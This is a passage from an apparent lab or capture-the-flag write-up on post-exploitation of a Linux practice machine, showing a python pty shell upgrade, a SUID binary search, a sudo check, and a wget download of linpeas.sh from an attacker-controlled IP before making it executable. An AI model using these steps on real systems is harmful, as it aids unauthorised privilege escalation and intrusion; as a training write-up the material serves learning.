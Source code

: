 **First we have to get  an Interactive shell:**

```
python3 -c 'import pty; pty.spawn("/bin/bash")'
```

![[Pasted image 20240602193458.png]]

**Now will get the Local flag:** The Local.txt is in Aero's Home directory

![[Pasted image 20240602193703.png]]

Moving further, Tried sudo Permisions:

```
sudo -l
```

![[Pasted image 20240602194225.png]]
Its asking password, So will move on

Checked Set UID's:

```
find / -perm -u=s -type f 2>/dev/null
```

![[Pasted image 20240602194359.png]]
Lot of interesting binaries but we don't have password of Aero, Lets dig further.

**Will Run Linpeas:** For that first we need to transfer that from our kali to traget linux machine using **wget** function and change its permission to execute.

```
wget 192.168.45.177/linpeas.sh
chmod +x linpeas.sh
```

![[Pasted image 20240602194712.png]]
It's running................




